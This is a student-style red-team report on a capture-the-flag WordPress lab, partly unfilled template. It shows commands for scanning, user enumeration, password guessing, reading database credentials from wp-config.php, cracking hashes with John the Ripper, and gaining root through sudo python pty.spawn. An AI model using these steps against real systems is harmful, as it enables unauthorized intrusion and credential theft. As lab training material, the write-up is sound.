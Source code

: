 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`
  <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._
### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: *b9bbcb33ellb80be759c4e844862482d*
    - **Exploit Used**
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`


<img src="/Images/wpscan-users.png">
<img src="/Images/flag1.png">

- Targeting user Michael
    - Brief manual Brute Force attack to guess/finds Michael’s password
    - User password was found upon attempting most basic username duplication as password credential.
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd /var/www/html`
        - `ls -l`
        - `nano service.html`
  - `flag2.txt`: *fc3fd58dcdad9ab23faca6e9a3e581c*
    - **Exploit Used**
      - Same SSH exploit for user Michael leveraged in the 1st exploit
      - Simple directory exploration found the 'flag2.txt' file plainly visible in the /var/www/ directory.
      - `cd /var/www/`
      - `ls -l`
      - `cat flag2.txt`
<img src="/Images/flag2.png">

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Viewing the wp-config.php file revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored toorin the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/John-show.png">

      	  	- Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
           		 - Commands: 
               			 - `ssh steven@192.168.1.110`
               			 - `pw:pink84`
               			 - `sudo -l`
               			 - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                			- `cd /root`
               			 - `ls`
               			 - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

- **FLAG 4**
<img src="/Images/flag4.png">